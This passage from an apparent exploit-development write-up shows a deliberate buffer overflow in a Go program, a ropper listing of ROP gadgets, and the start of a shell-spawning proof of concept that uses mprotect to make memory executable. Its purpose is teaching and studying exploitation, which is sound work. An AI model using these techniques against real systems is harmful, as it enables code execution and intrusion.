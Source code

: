     // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
    // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
    // vulnerability, nothing else needed
    ,  = reader.Read(confusedSlice)



The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:

shell
ropper --file main --search "%
0x000000000041996b: adc al, 0; ret;
0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret;
0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret;
0x00000000004614fa: adc al, 0x24; call rcx;
[...]


Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
exploit chain, so I had to dig in using my own hands.


 POC: Spawning a shell

Putting the ROP techniques from above into play, the plan looks like this:

 1. Set the executable and writable flags for a memory page belonging to the program
 2. Write some code that spawns a shell into the page
 3. Jump to that code

The following steps are based on the excellent blog articles [[4, 5, 6]](references). Give them a read for even more details on ROP
chains and exploit development.


**Step 1: Get a memory page with RWX permissions**

To do this, we use the mprotect syscall. Its man page explains the usage:

c
int mprotect(void *addr, sizet len, int prot);

mprotect() changes the access protections for the calling process's memory pages containing any part of the address
range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.


This means we need to provide the address of the region we want to change, the desired size, and the permission to set.
These permissions work similar to file system permissions, so the integer value 7 means RWX.

